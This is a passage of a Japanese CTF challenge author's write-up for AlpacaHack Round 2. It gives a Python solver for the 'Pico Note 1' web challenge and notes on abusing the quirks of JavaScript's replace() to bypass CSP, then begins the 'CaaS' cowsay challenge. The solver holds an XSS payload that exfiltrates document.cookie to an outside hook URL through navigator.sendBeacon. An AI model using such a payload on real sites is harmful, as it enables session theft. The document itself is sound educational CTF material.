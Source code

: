 以下のソルバを実行すると、`HOOK_URL`にフラグが送信されます。

```python
import os
import httpx
import urllib.parse

HOST = os.getenv("HOST", "localhost")
BOT_PORT = int(os.getenv("BOT_PORT", 1337))
WEB_PORT = int(os.getenv("WEB_PORT", 3000))

HOOK_URL = os.environ["HOOK_URL"]

client = httpx.Client(base_url=f"http://{HOST}:{BOT_PORT}")

res = client.post(
    "/api/report",
    json={
        "url": f"http://web:3000/note?title={urllib.parse.quote(f"</script>$`navigator.sendBeacon('{HOOK_URL}?' + document.cookie);</script>")}",
    },
    timeout=10,
)
print(res.text)
```

### 感想/補遺

JavaScriptのreplace関数の謎仕様を利用してCSP bypassを行う問題でした[^pico-note-1-02]。この仕様を使った問題は過去のCTFで何度か遭遇したことがある[^pico-note-1-03]ので新規性というわけではないのですが、自然な実装に擬態させたつもりなので気づくのに難しいタイプの問題だったと思います。

ところで、今回出題した4問は想定難易度の順番に並べてましたが、Pico Note 1のsolvesは次の問題であるCaaSのsolvesよりも少なく、予想は失敗です。難易度予想はむずかしいなあ...やらかし1です。

[^pico-note-1-02]: 最初は`replace`ではなく`replaceAll`を使ってましたが、レビュワーから「`replaceAll`のMDNのページには該当の仕様の記述がなく、知らない人が想定解にたどり着くのは困難」という指摘を受け、たしかにと思い`replace`に変更しました。実際、`replaceAll`のままだった場合として、難易度がどの程度変わるのかは気になるところです。

[^pico-note-1-03]: 記憶しているところではDragon CTF 2021のweb/webpwnで初めて遭遇しました（参考: https://balsn.tw/ctf_writeup/20211127-dragonctf2021/#webpwn ）。これは、replaceAllの仕様を悪用してSQLiを行う問題です。

## CaaS

- 248 pts (13 solves)
- https://alpacahack.com/ctfs/round-2/challenges/caas

問題文:
> 🐮📢 < Hello!
>
> - Attachments: caas.tar.gz

### 問題概要

入力テキストに対してcowsayを実行してくれるサービスが与えられます。


[^intro-01]: 加えて、あまり広くリーチできていなかったというのと、タイムゾーンの問題があったにもかかわらず、海外の強い方にも多く参加してもらえてびっくり&感謝です。[CTFTime](https://ctftime.org/event/2465/)に登録したのも一定以上の効果があったりする？
[^intro-02]: AlpacaHackは常設CTFでもあるので、終わったCTFも実際にリモート環境でテストすることが可能です！
[^pico-note-1-01]: 厳密にはサブセットではありません。興味がある人は調べてみてください。
[^caas-01]: タグ関数によっていい感じにエスケープされるようなインターフェイスは最近よく見ます。コマンド呼び出しだとzx以外にBunも[同様のインターフェイスのAPI](https://bun.sh/docs/runtime/shell)を提供していますし、SQLだと[Slonik](https://github.com/gajus/slonik)あたりがそうです。JavaScriptの言語機能をうまくSecure by Defaultなインターフェイスとして活用できていて、良い流れだなと思っています。